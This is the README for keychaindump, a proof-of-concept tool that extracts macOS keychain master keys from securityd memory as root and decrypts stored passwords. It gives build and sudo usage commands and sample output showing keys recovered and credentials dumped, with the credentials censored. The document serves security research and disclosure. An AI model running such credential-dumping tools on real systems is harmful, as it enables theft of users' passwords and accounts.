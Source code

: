 Below is the README for Keychain Dump, the tool that makes this possible.

# keychaindump
Keychaindump is a proof-of-concept tool for reading OS X keychain passwords as root. It hunts for unlocked keychain master keys located in the memory space of the securityd process, and uses them to decrypt keychain files.

See the [blog post](http://juusosalonen.com/post/30923743427/breaking-into-the-os-x-keychain) for a much more readable description.

## How?

Just use the binary file, `keychaindump`, or follow these build instructions.
Build instructions:

    $ gcc keychaindump.c -o keychaindump -lcrypto

Basic usage:

    $ sudo ./keychaindump [path to keychain file, leave blank for default]

Example with truncated and censored output:

    $ sudo ./keychaindump 
    [*] Searching process 15 heap range 0x7fa809400000-0x7fa809500000
    [*] Searching process 15 heap range 0x7fa809500000-0x7fa809600000
    [*] Searching process 15 heap range 0x7fa809600000-0x7fa809700000
    [*] Searching process 15 heap range 0x7fa80a900000-0x7fa80ac00000
    [*] Found 17 master key candidates
    [*] Trying to decrypt wrapping key in /Users/juusosalonen/Library/Keychains/login.keychain
    [*] Trying master key candidate: b49ad51a672bd4be55a4eb4efdb90b242a5f262ba80a95df
    [*] Trying master key candidate: 22b8aa80fa0700605f53994940fcfe9acc44eb1f4587f1ac
    [*] Trying master key candidate: 1d7aa80fa0700f002005043210074b877579996d09b70000
    [*] Trying master key candidate: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found master key: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found wrapping key: e9acc39947f1996df940fceb1f458ac74b877579f54409b7
    xxxxxxx:192.168.1.1:xxxxxxx
    xxxxxxx@gmail.com:login.facebook.com:xxxxxxx
    xxxxxxx@gmail.com:smtp.google.com:xxxxxxx
    xxxxxxx@gmail.com:imap.google.com:xxxxxxx
    xxxxxxx:twitter.com:xxxxxxx
    xxxxxxx@gmail.com:www.google.com:xxxxxxx
    xxxxxxx:imap.gmail.com:xxxxxxx
    ...

## Who?
Keychaindump was written by [Juuso Salonen](http://twitter.com/juusosalonen), the guy behind [Radio Silence](http://radiosilenceapp.com) and [Private Eye](http://radiosilenceapp.com/private-eye).

## License
Do whatever you wish. Please don't be evil.